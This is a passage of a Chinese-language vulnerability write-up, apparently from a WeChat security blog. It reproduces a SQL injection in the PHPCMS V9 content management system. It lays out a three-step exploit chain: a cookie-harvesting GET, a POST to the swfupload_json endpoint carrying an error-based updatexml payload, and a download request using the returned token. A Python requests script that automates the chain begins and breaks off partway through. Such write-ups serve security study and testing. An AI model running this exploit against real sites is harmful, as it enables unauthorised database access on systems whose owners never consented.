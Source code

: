> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/tNQxq3A_Pzg2xITYbcJ2zw)

环境搭建
----

参考 [PHPCMS_V9.2 任意文件上传 getshell 漏洞分析](https://mp.weixin.qq.com/s?__biz=MzU4NTY4MDEzMw==&mid=2247489053&idx=1&sn=de7468d2e9605a23aab7f21bc1c31ae4&scene=21#wechat_redirect)

漏洞复现
----

此漏洞利用过程可能稍有复杂，我们可分为以下三个步骤：

*   Step1：GET 请求访问`/index.php?m=wap&c=index&siteid=1`
    

*   获取`set-cookie`中的`_siteid`结尾的 cookie 字段的值
    

*   Step2：1. POST 请求访问 `/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26modelid%3D1%26catid%3D1%26f%3DTao`
    

*   上面访问的 url 通过 URL 解码为：`index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=&id=%*27 and updatexml(1,concat(1,(user())),1)#&m=1&modelid=1&catid=1&f=Tao` (报错注入，语句可替换)
    
*   2. 将`Step1`获取`_siteid`结尾的 cookie 字段的值，赋值给 `userid_flash` 变量, 以 post 数据提交
    
*   获取`set-cookie`中的`_json`结尾字段的值
    

*   Step3：访问`/index.php?m=content&c=down&a_k=`step2 获取的_json 结尾字段的值
    

*   eg：`/index.php?m=content&c=down&a_k=0e72z-2m8OJyw8injqvbY0xJtR5l5UtndXiFZmxcvK9kHkxN1COlnfyINF38Opx6UcdqlABV2gc-8RuG90sS6e31lJn2mxnkJPnUaQDCTAs0gEsKMnL5CHxl-o1hYg2TWaL5blo9RC8ya0yLkSc5NgzCqfTSgZCAlndhgum-OFk1XGARihPaYUs`
    

Step1：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDC3xXLeakHSkxNxYAt4ia5sagVThXZhNia4t5G3l3JFr5RSr50uE55OQiaPg9WyWa8tQcwBZLA9frPtA/640?wx_fmt=png)

Step2：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDC3xXLeakHSkxNxYAt4ia5sah3jjqQs1gKWRvGkIoVPLsTdohOe5c4cLQnnIj2gJPTG860BRZIBHhg/640?wx_fmt=png)

Step3：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDC3xXLeakHSkxNxYAt4ia5saT5Iv3Dic4j6SVf3bb9jIeODe3EqpT1f7wqqic1iaticFnoMcXj70jbWszg/640?wx_fmt=png)

老样子，贴个小脚本！

```
'''
Author: Tao
version: python3
# 本脚本执行返回user()信息
'''
import requests
import sys
# from urllib import parse
import re

def WAP_SQL(url):
   # step1
   url_one = url + '/index.php?m=wap&c=index&siteid=1'
   step1 = requests.get(url_one)
   userid_flash = step1.headers['Set-Cookie'].split('=')[1]

   # step2
```